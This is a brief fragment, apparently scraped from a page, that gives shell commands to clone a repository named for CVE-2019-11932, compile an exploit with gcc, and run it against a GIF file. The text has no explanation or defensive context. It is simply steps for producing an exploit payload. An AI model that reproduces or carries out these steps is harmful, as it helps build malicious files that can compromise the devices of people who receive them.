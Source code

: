 git clone https://github.com/awakened1712/CVE-2019-11932 
cd CVE-2019-11932
gcc -o exploit egif_lib.c exploit.c
./exploit /root/Desktop/cat.gif
